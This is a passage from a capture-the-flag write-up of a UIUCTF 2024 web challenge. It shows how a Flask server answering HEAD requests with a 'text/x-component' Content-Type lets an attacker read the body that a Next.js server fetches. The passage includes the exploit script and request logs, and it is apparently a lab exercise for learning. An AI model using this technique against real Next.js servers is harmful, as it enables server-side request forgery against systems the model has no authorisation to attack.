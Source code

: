 **`app-router-headers.ts`:**
```typescript
[...]
export const RSC_CONTENT_TYPE_HEADER = 'text/x-component' as const
[...]
```

So... Firstly, in the CORS preflight check HEAD request, if we **set the response header `Content-Type` to `text/x-component`**, the CORS preflight check should be passed. Then, we can read the response body.

## Exploitation

**Let's write a simple Flask app to verify that!**
```python
#!/usr/bin/env python3
from flask import Flask, request, Response

app = Flask(__name__)

@app.route('/login')
def exploit():
    # CORS preflight check
    if request.method == 'HEAD':
        response = Response()
        response.headers['Content-Type'] = 'text/x-component'
        return response
    # after CORS preflight check
    elif request.method == 'GET':
        return 'After CORS preflight check'

if __name__ == '__main__':
    app.run(port=80, debug=True)
```

```shell
┌[siunam♥Mercury]-(~/ctf/UIUCTF-2024/Web/Log-Action)-[2024.07.01|14:54:52(HKT)]
└> python3 exploit.py    
[...]
```

**Then send the POST request at `/logout` again:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/UIUCTF-2024/images/Pasted%20image%2020240701150504.png)

```shell
┌[siunam♥Mercury]-(~/ctf/UIUCTF-2024/Web/Log-Action)-[2024.07.01|14:54:52(HKT)]
└> python3 exploit.py
[...]
127.0.0.1 - - [01/Jul/2024 15:02:34] "HEAD /login HTTP/1.1" 200 -
127.0.0.1 - - [01/Jul/2024 15:02:35] "GET /login HTTP/1.1" 200 -
```

Nice! We can now read the response body!

